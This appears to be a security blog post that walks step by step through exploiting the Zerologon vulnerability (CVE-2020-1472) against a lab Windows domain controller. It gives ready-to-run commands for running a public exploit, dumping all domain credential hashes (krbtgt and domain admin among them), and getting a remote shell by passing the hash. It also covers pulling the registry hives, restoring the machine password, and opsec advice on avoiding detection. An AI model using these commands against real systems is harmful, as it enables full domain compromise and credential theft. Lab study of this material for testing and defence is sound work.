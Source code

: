 ```yaml
---
layout: posts
title: "CVE-2020-1472, Exploit Demo"
categories:
  - Windows
tags:
  - CVE-2020-1472
  - netlogon
  - zerolocon
date: 2020-09-17
---
```


# Preamble
In September 2020, the [whitepaper](https://www.secura.com/pathtoimg.php?id=2055) for the CVE-2020-1472 vulnerability and the [Zerologon testing script](https://github.com/SecuraBV/CVE-2020-1472) were released.  
This post is a step-by-step procedure for using a specific exploit released by dirkjanm in [Github](https://github.com/dirkjanm/CVE-2020-1472) and restoring the changes made in order to avoid problems in the Domain Controller's functionality after the execution of the exploit.

# Exploit Usage
+ For this demo the Domain Controller NetBios name is `DC01`, its IP is `172.16.40.5` and the domain is `worklab.local`.
+ Impacket version 0.9.22 is already installed.
```sh
python cve-2020-1472-exploit.py dc01 172.16.40.5
```

![exploit-success](/assets/exploit-success.png)

+ Use impacket secretsdump to dump the credentials stored in ntds
  ```sh
  secretsdump.py -just-dc -no-pass worklab/DC01\$@172.16.40.5

  # Since hash :31d6cfe0d16ae931b73c59d7e0c089c0 is the default empty password we can also use the command
  secretsdump.py worklab/DC01\$@172.16.40.5 -hashes :31d6cfe0d16ae931b73c59d7e0c089c0
  ```
  ![creds-dumped](/assets/creds_dumped.png)

+ As we can see we have the hashes of all users (including domain admin), the krbtgt hash, while the hash of the `DC01$` is empty (`:31d6cf0.....`)

# Restoring DC password
+ As it is mentioned in the [whitepaper](https://www.secura.com/pathtoimg.php?id=2055) this exploit changes the password of the DC that is stored in AD (ntds) and not the one stored locally in SAM and in `HKLM\SECURITY\Policy\Secrets\$machine.ACC`. This causes the DC to misbehave in various unpretectible ways.
+ So, after getting the hashes above, it is advisable to restore the password of the DC.
+ We can get the original password from SAM. Two methods are demonstrated here.

## First Method
+ Download SAM from the DC by getting a shell with the administrator hashes we got earlier
```
wmiexec.py -hashes aad3b435b51404eeaad3b435b51404ee:217.... worklab/user1@172.16.40.5
  reg save HKLM\SYSTEM system.save
  reg save HKLM\SAM sam.save
  reg save HKLM\SECURITY security.save
  get system.save
  get sam.save
  get security.save
  del /f system.save
  del /f sam.save
  del /f security.save
exit
```
![getting_sam](/assets/getting_sam.png)

+ **Be aware of the opsec considerations when using impacket wmiexec**

+ Get password from the files downloaded locally
```
secretsdump.py -sam sam.save -system system.save -security security.save LOCAL
```
![machine-pass](/assets/machine-pass.png)
+ Restore password in ntds
```
python restorepassword.py worklab.local/dc01@dc01 -target-ip 172.16.40.5 -hexpass 88b5869b8daad1f8a5177aa1d96c120e9da01e....
```
![restore-pass](/assets/restore-pass.png)
+ Check that the restore was successfull
```
# This should give us an error since the DC01 password is not empty now
secretsdump.py -just-dc -no-pass worklab/DC01\$@172.16.40.5
```
![check-restore](/assets/check-restore.png)

## Second Method - Impacket Version 0.9.21
+ With latest ipacket method we can use secretsdump with domain admin hash that we got previously in order to get locally stored password of the DC
```sh
secretsdump.py worklab/user1@dc01 -target-ip 172.16.40.5 -hashes aad3b435b51404eeaad3b435b51404ee:217e....
```
![getting_sam-secretsdump](/assets/getting_sam-secretsdump.png)

+ **Note that in order to do so it starts service RemoteRegistry which is something that Blue teams can spot.**

+ After that we continue as in First Method.
